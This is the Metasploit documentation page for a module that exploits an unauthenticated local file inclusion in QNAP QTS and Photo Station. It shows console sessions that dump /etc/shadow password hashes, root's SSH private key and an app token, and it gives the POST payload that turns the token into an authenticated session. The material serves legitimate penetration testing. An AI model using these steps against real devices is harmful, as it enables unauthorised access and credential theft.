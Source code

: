 ## Vulnerable Application

### Introduction

This module exploits a local file inclusion in QNAP QTS and Photo
Station that allows an unauthenticated attacker to download files from
the QNAP filesystem.

Because the HTTP server runs as root, it is possible to access
sensitive files, such as SSH private keys and password hashes.

`/etc/shadow` entries can be processed offline, the module saves them in the creds,
and they can be cracked using john the ripper, or hashcat.

There is some confusion in the CVEs assigned to this vulnerability, it corresponds to
one of these : CVE-2019-7192, CVE-2019-7194 or CVE-2019-7195, notice that two of them
have the same description.

## Verification Steps

1. Start `msfconsole`
2. Do: `use auxiliary/gather/qnap_lfi`
3. Do: `set RHOSTS [RHOSTS]`
4. Do: `check`
5. Verify if `check` detects vulnerable hosts as it should
6. Do: `run`
7. Do: `loot`
8. Verify if the run command retrieved the content of /etc/shadow if the host was vulnerable, and saved the file in the loot
9. Do: `creds`
10. Verify if the retrieved hashes were saved in the creds, and their hash type identified correctly.

## Options

### FILEPATH

Set this to the file you want to dump. The default is `/etc/shadow`.

### PRINT

Whether to print file contents to the screen, defaults to true.

## Scenarios

### QNAP QTS 4.3.3

#### Dumping hashes from `/etc/shadow`

```
msf5 auxiliary(gather/qnap_lfi) > run
[*] Running module against [REDACTED]

[*] Getting the Album Id
[+] Got Album Id : cJinsP
[*] Getting the Access Code
[+] Got Access Code : NjU1MzR8MXwxNTkwNjk0MDIy
[*] Attempting Local File Inclusion
[+] File download successful, file saved in /home/redouane/.msf4/loot/20200528212705_default_[REDACTED]_qnap.http_394810.bin
[+] File content:
admin:$1$$0EDxoz0B/Et7aYxLtR/Ik/:14233:0:99999:7:::
guest:$1$$ysap7EeB9ODCrO46Psdbq/:14233:0:99999:7:::
httpdusr:!:16923:0:99999:7:::
Cherle:$1$$Bb3R7AIqzIemj7kGq5k/p1:16923:0:99999:7:::
redouane:$1$$l265pXOEMo0cRDhod/Z3M1:16923:0:99999:7:::
Test:$1$$0EDxoz0B/Et7aYxLtR/Ik/:16928:0:99999:7:::
Merle:$1$JjtNtEJx$PMtCY0tpb2N/rjck2fHVI0:17438:0:99999:7:::
[appuser]:!:17451:0:99999:7:::
[sshd]:!:17637:0:99999:7:::
a9d01ba7:$1$PKQtJPZZ$3RdJRQozKzdx1axJqP9Fe/:18405:0:99999:7:::
[*] adding the /etc/shadow entries to the database
[*] Auxiliary module execution completed
msf5 auxiliary(gather/qnap_lfi) > loot

Loot
====

host           service  type       name    content                   info  path
----           -------  ----       ----    -------                   ----  ----
[REDACTED]              qnap.http  shadow  text/plain                      /home/redouane/.msf4/loot/20200528212705_default_[REDACTED]_qnap.http_394810.bin

msf5 auxiliary(gather/qnap_lfi) > creds
Credentials
===========

host  origin         service  public      private                             realm  private_type        JtR Format
----  ------         -------  ------      -------                             -----  ------------        ----------
      [REDACTED]              admin       $1$$0EDxoz0B/Et7aYxLtR/Ik/                 Nonreplayable hash  md5crypt
      [REDACTED]              guest       $1$$ysap7EeB9ODCrO46Psdbq/                 Nonreplayable hash  md5crypt
      [REDACTED]              Cherle      $1$$Bb3R7AIqzIemj7kGq5k/p1                 Nonreplayable hash  md5crypt
      [REDACTED]              redouane    $1$$l265pXOEMo0cRDhod/Z3M1                 Nonreplayable hash  md5crypt
      [REDACTED]              Test        $1$$0EDxoz0B/Et7aYxLtR/Ik/                 Nonreplayable hash  md5crypt
      [REDACTED]              Merle       $1$JjtNtEJx$PMtCY0tpb2N/rjck2fHVI0         Nonreplayable hash  md5crypt
      [REDACTED]              a9d01ba7    $1$PKQtJPZZ$3RdJRQozKzdx1axJqP9Fe/         Nonreplayable hash  md5crypt

msf5 auxiliary(gather/qnap_lfi) >
```

The hashes can be used to login from the web interface, or through ssh if it's enabled.

#### Dumping ssh private keys

```
msf5 auxiliary(gather/qnap_lfi) > set FILEPATH /root/.ssh/id_rsa
FILEPATH => /root/.ssh/id_rsa
msf5 auxiliary(gather/qnap_lfi) > exploit
[*] Running module against [redacted]

[*] Getting the Album Id
[+] Got Album Id : [redacted]
[*] Getting the Access Code
[+] Got Access Code : [redacted]
[*] Attempting Local File Inclusion
[+] File download successful, file saved in /home/redouane/.msf4/loot/20200528213018_default_[redacted]_qnap.http_983860.bin
[+] File content:
-----BEGIN RSA PRIVATE KEY-----
[redacted]
-----END RSA PRIVATE KEY-----
[*] Auxiliary module execution completed
msf5 auxiliary(gather/qnap_lfi) >
```

#### Retrieving the token, can be used to authenticate

```
msf5 auxiliary(gather/qnap_lfi) > set FILEPATH /share/Multimedia/.@__thumb/ps.app.token
FILEPATH => /share/Multimedia/.@__thumb/ps.app.token
msf5 auxiliary(gather/qnap_lfi) > exploit
[*] Running module against [redacted]

[*] Getting the Album Id
[+] Got Album Id : [redacted]
[*] Getting the Access Code
[+] Got Access Code : [redacted]
[*] Attempting Local File Inclusion
[+] File download successful, file saved in /home/redouane/.msf4/loot/20200528213233_default_[redacted]_qnap.http_815651.bin
[+] File content:
[redacted]
[*] Auxiliary module execution completed
msf5 auxiliary(gather/qnap_lfi) >
```

The token can then be used to authenticate, by sending a POST request to the uri `/cgi-bin/authLogin.cgi`, for the example above:

sending the POST payload: `app_token=[redacted]&app=PHOTO_STATION&auth=1`

This would return an `authSid`, that can be used with most endpoints that require authentication.

### QNAP QTS 4.3.6 with Photo Station 5.7.9

```
msf5 auxiliary(gather/qnap_lfi) > show options

Module options (auxiliary/gather/qnap_lfi):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   DEPTH      3                yes       Traversal Depth (to reach the root folder)
   FILEPATH   /etc/fstab       yes       The file to read on the target
   PRINT      true             yes       Whether or not to print the content of the file
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.250.5    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      443              yes       The target port (TCP)
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The URI of the QNAP Website
   VHOST                       no        HTTP server virtual host


Auxiliary action:

   Name      Description
   ----      -----------
   Download  Download the file at FILEPATH


msf5 auxiliary(gather/qnap_lfi) > run
[*] Running module against 192.168.250.5

[*] Getting the Album Id
[+] Got Album Id : cJinsP
[*] Getting the Access Code
[+] Got Access Code : MHwxfDE1OTE4MTk2NjY=
[*] Attempting Local File Inclusion
[+] File download successful, saved in /home/smcintyre/.msf4/loot/20200610160738_default_192.168.250.5_qnap.http_072626.txt
[+] File content:
# /etc/fstab: static file system information.
#
# <file system> <mount pt>     <type>	<options>         <dump> <pass>
/dev/ram       /              ext2	defaults         1      1
proc		/proc	       proc     defaults	  0	 0
none            /dev/pts        devpts  gid=5,mode=620  0       0

[*] Auxiliary module execution completed
msf5 auxiliary(gather/qnap_lfi) >
```
